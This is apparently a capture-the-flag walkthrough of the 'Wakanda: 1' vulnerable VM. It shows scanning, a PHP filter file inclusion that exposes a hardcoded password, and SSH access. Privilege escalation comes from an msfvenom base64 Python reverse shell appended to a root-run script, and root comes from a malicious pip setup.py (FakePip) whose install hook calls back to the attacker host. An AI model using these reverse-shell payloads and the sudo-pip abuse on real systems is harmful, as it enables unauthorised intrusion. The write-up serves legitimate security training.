



#### Wakanda: 1

- [Attacker Info](#attacker-info)
- [Attacker Discovery](#attacker-discovery)
- [Nmap Scan](#nmap-scan)
- [Web Enumeration](#web-enumeration)
- [SSH Enumeration](#ssh-enumeration)
- [Privilege Escalation](#privilege-escalation)

###### Attacker Info

```sh
root@kali:~/wakanda# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.0.81  netmask 255.255.255.0  broadcast 10.0.0.255
        inet6 2601:5cc:c900:4024:20c:29ff:feb0:a919  prefixlen 64  scopeid 0x0<global>
        inet6 2601:5cc:c900:4024::1127  prefixlen 128  scopeid 0x0<global>
        inet6 2601:5cc:c900:4024:b95a:6618:a2df:543f  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::20c:29ff:feb0:a919  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:b0:a9:19  txqueuelen 1000  (Ethernet)
        RX packets 588001  bytes 882779012 (841.8 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 63482  bytes 4432359 (4.2 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 20  bytes 1116 (1.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 20  bytes 1116 (1.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~/wakanda#
```

###### Attacker Discovery

```sh
root@kali:~/wakanda# netdiscover -r 10.0.0.1/24
 Currently scanning: Finished!   |   Screen View: Unique Hosts

 15 Captured ARP Req/Rep packets, from 9 hosts.   Total size: 900
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 10.0.0.1        00:50:f1:80:00:00      4     240  Intel Corporation
 10.0.0.20       bc:9f:ef:69:35:19      1      60  Apple, Inc.
 10.0.0.72       f4:0f:24:33:5e:d1      1      60  Apple, Inc.
 10.0.0.72       08:00:27:3c:1e:db      1      60  PCS Systemtechnik GmbH
 10.0.0.95       f4:0f:24:33:5e:d1      1      60  Apple, Inc.
 10.0.0.254      00:05:04:03:02:01      1      60  Naray Information & Communication Enterprise
 10.0.0.144      e8:2a:44:d2:47:69      1      60  Liteon Technology Corporation
 10.0.0.236      58:40:4e:93:c6:ef      4     240  Apple, Inc.
 10.0.0.65       80:7a:bf:99:1c:e7      1      60  HTC Corporation

root@kali:~/wakanda#
```

###### Nmap Scan

```sh
root@kali:~/wakanda# nmap -sC -sV -oA wakanda.nmap 10.0.0.72
Starting Nmap 7.70 ( https://nmap.org ) at 2018-10-15 22:22 EDT
Nmap scan report for 10.0.0.72
Host is up (0.0012s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Vibranium Market
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          33559/udp  status
|_  100024  1          58114/tcp  status
3333/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 1c:98:47:56:fc:b8:14:08:8f:93:ca:36:44:7f:ea:7a (DSA)
|   2048 f1:d5:04:78:d3:3a:9b:dc:13:df:0f:5f:7f:fb:f4:26 (RSA)
|   256 d8:34:41:5d:9b:fe:51:bc:c6:4e:02:14:5e:e1:08:c5 (ECDSA)
|_  256 0e:f5:8d:29:3c:73:57:c7:38:08:6d:50:84:b6:6c:27 (ED25519)
MAC Address: 08:00:27:3C:1E:DB (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.18 seconds
root@kali:~/wakanda#
```

###### Web Enumeration

```
http://10.0.0.72
```


```sh
root@kali:~/wakanda# dirb http://10.0.0.72

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon Oct 15 22:23:28 2018
URL_BASE: http://10.0.0.72/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.0.0.72/ ----
+ http://10.0.0.72/admin (CODE:200|SIZE:0)
+ http://10.0.0.72/backup (CODE:200|SIZE:0)
+ http://10.0.0.72/index.php (CODE:200|SIZE:1527)
+ http://10.0.0.72/secret (CODE:200|SIZE:0)
+ http://10.0.0.72/server-status (CODE:403|SIZE:297)
+ http://10.0.0.72/shell (CODE:200|SIZE:0)

-----------------
END_TIME: Mon Oct 15 22:23:34 2018
DOWNLOADED: 4612 - FOUND: 6
root@kali:~/wakanda#
```

```sh
root@kali:~/wakanda# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.0.72

Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.0.0.72/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 302,307,200,204,301
=====================================================
/admin (Status: 200)
/backup (Status: 200)
/shell (Status: 200)
/secret (Status: 200)
/troll (Status: 200)
/hahaha (Status: 200)
/hohoho (Status: 200)
=====================================================
root@kali:~/wakanda#
```

```
view-source:http://10.0.0.72/
```



```
http://10.0.0.72/?lang=fr
```


```sh
root@kali:~/wakanda# curl -i http://10.0.0.72/fr.php
HTTP/1.1 200 OK
Date: Tue, 16 Oct 2018 02:36:37 GMT
Server: Apache/2.4.10 (Debian)
Content-Length: 0
Content-Type: text/html; charset=UTF-8

root@kali:~/wakanda#
```

```
http://10.0.0.72/?lang=php://filter/convert.base64-encode/resource=fr
```


```
root@kali:~/wakanda# base64 -d fr.txt
<?php

$message="Prochaine ouverture du plus grand marché du vibranium. Les produits viennent directement du wakanda. Restez à l'écoute!";
root@kali:~/wakanda#
```

```
http://10.0.0.72/?lang=php://filter/convert.base64-encode/resource=index
```


```sh
root@kali:~/wakanda# base64 -d index.txt
<?php
$password ="Niamey4Ever227!!!" ;//I have to remember it

if (isset($_GET['lang']))
{
include($_GET['lang'].".php");
}

?>


<!DOCTYPE html>
<html lang="en"><head>
<meta http-equiv="content-type" content="text/html; charset=UTF-8">
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="Vibranium market">
    <meta name="author" content="mamadou">

    <title>Vibranium Market</title>


    <link href="bootstrap.css" rel="stylesheet">


    <link href="cover.css" rel="stylesheet">
  </head>

  <body class="text-center">

    <div class="cover-container d-flex w-100 h-100 p-3 mx-auto flex-column">
      <header class="masthead mb-auto">
        <div class="inner">
          <h3 class="masthead-brand">Vibranium Market</h3>
          <nav class="nav nav-masthead justify-content-center">
            <a class="nav-link active" href="#">Home</a>
            <!-- <a class="nav-link active" href="?lang=fr">Fr/a> -->
          </nav>
        </div>
      </header>

      <main role="main" class="inner cover">
        <h1 class="cover-heading">Coming soon</h1>
        <p class="lead">
          <?php
            if (isset($_GET['lang']))
          {
          echo $message;
          }
          else
          {
            ?>

            Next opening of the largest vibranium market. The products come directly from the wakanda. stay tuned!
            <?php
          }
?>
        </p>
        <p class="lead">
          <a href="#" class="btn btn-lg btn-secondary">Learn more</a>
        </p>
      </main>

      <footer class="mastfoot mt-auto">
        <div class="inner">
          <p>Made by<a href="#">@mamadou</a></p>
        </div>
      </footer>
    </div>


</body></html>
root@kali:~/wakanda#
```

```
mamadou
Niamey4Ever227!!!
```

###### SSH Enumeration

```sh
root@kali:~/wakanda# ssh mamadou@10.0.0.72 -p 3333
The authenticity of host '[10.0.0.72]:3333 ([10.0.0.72]:3333)' can't be established.
ECDSA key fingerprint is SHA256:X+fXjgH34Ta5l6I4kUSpiVZNBGGBGtjxZxgyU7KCFwk.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[10.0.0.72]:3333' (ECDSA) to the list of known hosts.
mamadou@10.0.0.72's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Aug  3 15:53:29 2018 from 192.168.56.1
Python 2.7.9 (default, Jun 29 2016, 13:08:31)
[GCC 4.9.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>>
```

```sh
>>> import os
>>> os.system("/bin/bash")
mamadou@Wakanda1:~$ id
uid=1000(mamadou) gid=1000(mamadou) groups=1000(mamadou)
mamadou@Wakanda1:~$
```

```sh
mamadou@Wakanda1:~$ ls
flag1.txt
mamadou@Wakanda1:~$ cat flag1.txt

Flag : d86b9ad71ca887f4dd1dac86ba1c4dfc
mamadou@Wakanda1:~$
```

###### Privilege Escalation

```sh
mamadou@Wakanda1:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
Debian-exim:x:104:109::/var/spool/exim4:/bin/false
messagebus:x:105:110::/var/run/dbus:/bin/false
statd:x:106:65534::/var/lib/nfs:/bin/false
avahi-autoipd:x:107:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
mamadou:x:1000:1000:Mamadou,,,,Developper:/home/mamadou:/usr/bin/python
devops:x:1001:1002:,,,:/home/devops:/bin/bash
mamadou@Wakanda1:~$
```

```sh
mamadou@Wakanda1:~$ find / -user devops 2> /dev/null
/srv/.antivirus.py
/tmp/test
/home/devops
/home/devops/.bashrc
/home/devops/.profile
/home/devops/.bash_logout
/home/devops/flag2.txt
mamadou@Wakanda1:~$
```

```sh
mamadou@Wakanda1:~$ cat /srv/.antivirus.py
open('/tmp/test','w').write('test')
mamadou@Wakanda1:~$
```

```sh
root@kali:~/wakanda# msfvenom -p cmd/unix/reverse_python lhost=10.0.0.81 lport=4444 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 621 bytes
python -c "exec('aW1wb3J0IHNvY2tldCAgICAgICAgICwgICBzdWJwcm9jZXNzICAgICAgICAgLCAgIG9zICAgICAgICA7ICAgICAgICBob3N0PSIxMC4wLjAuODEiICAgICAgICA7ICAgICAgICBwb3J0PTQ0NDQgICAgICAgIDsgICAgICAgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCAgICAgICAgICwgICBzb2NrZXQuU09DS19TVFJFQU0pICAgICAgICA7ICAgICAgICBzLmNvbm5lY3QoKGhvc3QgICAgICAgICAsICAgcG9ydCkpICAgICAgICA7ICAgICAgICBvcy5kdXAyKHMuZmlsZW5vKCkgICAgICAgICAsICAgMCkgICAgICAgIDsgICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgICAgICAgICwgICAxKSAgICAgICAgOyAgICAgICAgb3MuZHVwMihzLmZpbGVubygpICAgICAgICAgLCAgIDIpICAgICAgICA7ICAgICAgICBwPXN1YnByb2Nlc3MuY2FsbCgiL2Jpbi9iYXNoIik='.decode('base64'))"
root@kali:~/wakanda#
```

```sh
mamadou@Wakanda1:~$ cat /srv/.antivirus.py
open('/tmp/test','w').write('test')

exec('aW1wb3J0IHNvY2tldCAgICAgICAgICwgICBzdWJwcm9jZXNzICAgICAgICAgLCAgIG9zICAgICAgICA7ICAgICAgICBob3N0PSIxMC4wLjAuODEiICAgICAgICA7ICAgICAgICBwb3J0PTQ0NDQgICAgICAgIDsgICAgICAgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCAgICAgICAgICwgICBzb2NrZXQuU09DS19TVFJFQU0pICAgICAgICA7ICAgICAgICBzLmNvbm5lY3QoKGhvc3QgICAgICAgICAsICAgcG9ydCkpICAgICAgICA7ICAgICAgICBvcy5kdXAyKHMuZmlsZW5vKCkgICAgICAgICAsICAgMCkgICAgICAgIDsgICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgICAgICAgICwgICAxKSAgICAgICAgOyAgICAgICAgb3MuZHVwMihzLmZpbGVubygpICAgICAgICAgLCAgIDIpICAgICAgICA7ICAgICAgICBwPXN1YnByb2Nlc3MuY2FsbCgiL2Jpbi9iYXNoIik='.decode('base64'))
mamadou@Wakanda1:~$
```



```sh
root@kali:~/wakanda# nc -nlvp 4444
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.0.0.72.
Ncat: Connection from 10.0.0.72:58833.

id
uid=1001(devops) gid=1002(developer) groups=1002(developer)
python -c 'import pty; pty.spawn("/bin/bash")'
devops@Wakanda1:/$ ls
bin   dev  home        lib    lost+found  mnt  proc  run   srv  tmp  var
boot  etc  initrd.img  lib64  media       opt  root  sbin  sys  usr  vmlinuz
devops@Wakanda1:/$ cd home
devops@Wakanda1:/home$ ls
devops  mamadou
devops@Wakanda1:/home$ cd devops
devops@Wakanda1:~$ ls
flag2.txt
devops@Wakanda1:~$ cat flag2.txt
Flag 2 : d8ce56398c88e1b4d9e5f83e64c79098
devops@Wakanda1:~$
```

- [`Upgrading simple shells to fully interactive TTYs`](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys)

```sh
devops@Wakanda1:~$ ^Z
[1]+  Stopped                 nc -nlvp 4444
root@kali:~/wakanda# echo $TERM
xterm-256color
root@kali:~/wakanda# stty -a
speed 38400 baud; rows 51; columns 204; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = M-^?; eol2 = M-^?; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc ixany imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
root@kali:~/wakanda# stty raw -echo
root@kali:~/wakanda# nc -nlvp 4444
                                  reset
reset: unknown terminal type unknown
Terminal type? xterm-256color

devops@Wakanda1:~$ stty rows 51 columns 204
devops@Wakanda1:~$
```

```sh
devops@Wakanda1:~$ sudo -l
Matching Defaults entries for devops on Wakanda1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User devops may run the following commands on Wakanda1:
    (ALL) NOPASSWD: /usr/bin/pip
devops@Wakanda1:~$
```

- [`FakePip`](https://github.com/0x00-0x00/FakePip)

```sh
root@kali:~/wakanda# wget https://raw.githubusercontent.com/0x00-0x00/FakePip/master/setup.py
--2018-10-15 23:09:13--  https://raw.githubusercontent.com/0x00-0x00/FakePip/master/setup.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.32.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.32.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 983 [text/plain]
Saving to: ‘setup.py’

setup.py                                           100%[================================================================================================================>]     983  --.-KB/s    in 0s

2018-10-15 23:09:14 (11.5 MB/s) - ‘setup.py’ saved [983/983]

root@kali:~/wakanda#
```

```python
from setuptools import setup
from setuptools.command.install import install
import base64
import os


class CustomInstall(install):
  def run(self):
    install.run(self)
    RHOST = '10.0.0.81'  # change this

    reverse_shell = 'python -c "import os; import pty; import socket; lhost = \'%s\'; lport = 4455; s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((lhost, lport)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); os.putenv(\'HISTFILE\', \'/dev/null\'); pty.spawn(\'/bin/bash\'); s.close();"' % RHOST
    encoded = base64.b64encode(reverse_shell)
    os.system('echo %s|base64 -d|bash' % encoded)


setup(name='FakePip',
      version='0.0.1',
      description='This will exploit a sudoer able to /usr/bin/pip install *',
      url='https://github.com/0x00-0x00/fakepip',
      author='zc00l',
      author_email='andre.marques@esecurity.com.br',
      license='MIT',
      zip_safe=False,
      cmdclass={'install': CustomInstall})
```




```sh
root@kali:~/wakanda# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.0.0.72 - - [15/Oct/2018 23:12:08] "GET /setup.py HTTP/1.1" 200 -
```

```sh
devops@Wakanda1:~$ wget http://10.0.0.81/setup.py
--2018-10-15 23:12:06--  http://10.0.0.81/setup.py
Connecting to 10.0.0.81:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 985 [text/plain]
Saving to: ‘setup.py’

setup.py                                           100%[==================================================================================================================>]     985  --.-KB/s   in 0s

2018-10-15 23:12:06 (105 MB/s) - ‘setup.py’ saved [985/985]

devops@Wakanda1:~$
```

```sh
devops@Wakanda1:~$ mkdir fakepip
devops@Wakanda1:~$ mv setup.py fakepip/
devops@Wakanda1:~$ cd fakepip/
devops@Wakanda1:~/fakepip$ sudo pip install . --upgrade --force-reinstall
Unpacking /home/devops/fakepip
  Running setup.py (path:/tmp/pip-5qZrX7-build/setup.py) egg_info for package from file:///home/devops/fakepip

Installing collected packages: FakePip
  Running setup.py install for FakePip
```

```sh
root@kali:~/wakanda# nc -nlvp 4455
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4455
Ncat: Listening on 0.0.0.0:4455
Ncat: Connection from 10.0.0.72.
Ncat: Connection from 10.0.0.72:45330.
root@Wakanda1:/tmp/pip-5qZrX7-build# id
id
uid=0(root) gid=0(root) groups=0(root)
root@Wakanda1:/tmp/pip-5qZrX7-build# ls -l
ls -l
total 12
drwxr-xr-x 2 root root 4096 Oct 15 23:22 FakePip.egg-info
drwxr-xr-x 3 root root 4096 Oct 15 23:22 pip-egg-info
-rw-r--r-- 1 root root  985 Oct 15 23:10 setup.py
root@Wakanda1:/tmp/pip-5qZrX7-build# cd
cd
root@Wakanda1:~# ls -l
ls -l
total 4
-rw-r----- 1 root root 429 Aug  1 15:16 root.txt
root@Wakanda1:~# cat root.txt
cat root.txt
 _    _.--.____.--._
( )=.-":;:;:;;':;:;:;"-._
 \\\:;:;:;:;:;;:;::;:;:;:\
  \\\:;:;:;:;:;;:;:;:;:;:;\
   \\\:;::;:;:;:;:;::;:;:;:\
    \\\:;:;:;:;:;;:;::;:;:;:\
     \\\:;::;:;:;:;:;::;:;:;:\
      \\\;;:;:_:--:_:_:--:_;:;\
       \\\_.-"             "-._\
        \\
         \\
          \\
           \\ Wakanda 1 - by @xMagass
            \\
             \\


Congratulations You are Root!

821ae63dbe0c573eff8b69d451fb21bc

root@Wakanda1:~#
```

